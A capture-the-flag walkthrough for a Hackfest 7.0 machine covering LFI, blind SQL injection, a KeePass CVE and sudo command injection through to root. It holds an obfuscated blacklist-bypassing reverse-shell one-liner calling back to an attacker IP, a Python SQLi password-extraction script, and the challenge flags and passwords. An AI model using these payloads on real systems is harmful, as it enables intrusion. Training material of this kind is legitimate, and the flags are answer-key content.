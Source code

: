 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0:\
<br>
</br> 
![img](images/image_2023-06-26_001633995.png)\
<br>
</br>
Let's first start with a scan to discover open ports:\
<br>
</br>
![img](images/image_2023-06-25_221255274.png)\
<br>
</br>
So let's go ahead and check the web app on port 80:\
<br>
</br>
![img](images/image_2023-06-25_221211894.png)\
<br>
</br>
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:\
<br>
</br>
![img](images/image_2023-06-25_221230171.png)\
<br>
</br>
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take:\
<br>
</br> ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:\
<br>
</br>
![img](images/image_2023-06-25_221346724.png)\
<br>
</br>
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:\
<br>
</br>
![img](images/image_2023-06-25_221412943.png)\
<br>
</br>
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:\
<br>
</br>
![img](images/image_2023-06-25_221430709.png)\
<br>
</br>
We type any command and we find it is vulnerable to command injection:\
<br>
</br>
![img](images/image_2023-06-25_221442066.png)\
<br>
</br>
But when we type some other commands it tells us to get away, not very polite huh? :\
<br>
</br>
![img](images/image_2023-06-25_221518226.png)\
<br>
</br>
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:\
<br>
</br>
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server:\
<br>
</br> 
![img](images/image_2023-06-25_223318248.png)\
<br>
</br>
![img](images/image_2023-06-25_223328201.png)\
<br>
</br>
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:\
<br>
</br>
![img](images/image_2023-06-25_223347505.png)\
<br>
</br>
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):\
<br>
</br>
![img](images/image_2023-06-25_225508169.png)\
<br>
</br>
![img](images/image_2023-06-25_225517751.png)\
<br>
</br>
And now we can access it from ``http://127.0.0.1:10003``:\
<br>
</br>
![img](images/image_2023-06-25_225533101.png)\
<br>
</br>
Now let's try to test a bunch of different things:\
<br>
</br>
![img](images/image_2023-06-25_225552903.png)\
<br>
</br>
![img](images/image_2023-06-25_225605097.png)\
<br>
</br>
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)\
<br>
</br>
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:\
<br>
</br>
``python
#!/usr/bin/python
import requests
def string(start,end):\
<br>
</br>
        str=''
        for i in range(start,end):
    \
    <br>
    </br>
                str+=chr(i)
        return str
def passwd():\
<br>
</br>
        url='http:
    \
    <br>
    </br>//127.0.0.1:
    \
    <br>
    </br>10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
    \
    <br>
    </br>
                for i in test:
            \
            <br>
            </br>
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                    \
                    <br>
                    </br>
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':\
<br>
</br>
        passwd()
``
And we run it:\
<br>
</br>
![img](images/image_2023-06-25_231535263.png)\
<br>
</br>
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:\
<br>
</br>
![img](images/image_2023-06-25_231850578.png)\
<br>
</br>
And we get our first flag:\
<br>
</br> 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:\
<br>
</br>
![img](images/image_2023-06-25_232511782.png)\
<br>
</br>
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it:\
<br>
</br> ``https:\
<br>
</br>//github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is:\
<br>
</br> ``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):\
<br>
</br>
![img](images/image_2023-06-25_233142947.png)\
<br>
</br>
The password is:\
<br>
</br> ``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:\
<br>
</br>
![img](images/image_2023-06-25_233848208.png)\
<br>
</br>
And we get the second flag:\
<br>
</br> ``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:\
<br>
</br>
![img](images/image_2023-06-25_233904294.png)\
<br>
</br>
And we can take a look at the source code for the bash script:\
<br>
</br>
![img](images/image_2023-06-25_234055785.png)\
<br>
</br>
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:\
<br>
</br>
![img](images/image_2023-06-26_001223527.png)\
<br>
</br>
And yes we are ROOT!
And here is out final flag:\
<br>
</br> ``Hackfest{7a899205babaab8623b7cb007b843115}``
